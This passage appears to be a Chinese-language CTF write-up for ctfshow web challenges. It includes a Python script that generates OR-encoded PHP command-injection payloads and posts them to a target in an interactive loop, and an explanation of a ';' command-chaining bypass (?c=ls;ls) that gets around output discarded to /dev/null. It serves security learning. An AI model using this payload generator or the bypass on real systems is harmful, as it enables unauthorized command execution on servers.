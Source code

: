 ```python
   for i in arg:
       f=open("rce_or.txt","r")
       while True:
           t=f.readline()
           if t=="":
               break
           if t[0]==i:
               #print(i)
               s1+=t[2:5]
               s2+=t[6:9]
               break
       f.close()
   output="(\""+s1+"\"|\""+s2+"\")"
   return(output)
   
while True:
   param=action(input("\n[+] your function：") )+action(input("[+] your command："))
   data={
       'c':urllib.parse.unquote(param)
       }
   r=requests.post(url,data=data)
   print("\n[*] result:\n"+r.text)
```

我去试试别的靶机，这个能不能用（）

不行，非常不行（），这是针对性做这个抑或用的。

## web42

过滤。

![image-20230531164351534](https://cdn.jsdelivr.net/gh/rainsbluechan/blogimage@main/img/image-20230531164351534.png)

很短，这里参数进到system里，是可以执行指令的意思吗？但是后面的写入 **>** 会去到哪里？看了讲解说是会输出到黑洞。*即文件描述符，往里面写的任何数据都不会保存*

这里2代表的是错误输出，1代表的是标准输出。把错误输出通过>&绑定到标准输出，也就是说标准错误的输出也会在标准输出里面，然后统一输出到这个黑洞里面。

这句话所以就一个意思，所有输入的c的值是不显示的。

<img src="https://cdn.jsdelivr.net/gh/rainsbluechan/blogimage@main/img/image-20230603001506425.png" alt="image-20230603001506425" style="zoom:50%;" />

<img src="https://cdn.jsdelivr.net/gh/rainsbluechan/blogimage@main/img/image-20230603001058595.png" alt="image-20230603001058595" style="zoom: 50%;" />

提示告诉我们需要查看源代码，使用cat指令。

面对这样的一种过滤方式，可以采用**双写绕过**，它是把第二个命令写到黑洞里，通过分号阻隔后，第一个值就会正常输出。

```示例
?c=ls;ls
此时system($c." >/dev/null 2>&1")就会是
system(ls;ls >/dev/null 2>&1");
第一个命令正常执行，第二个命令被放入黑洞。
```
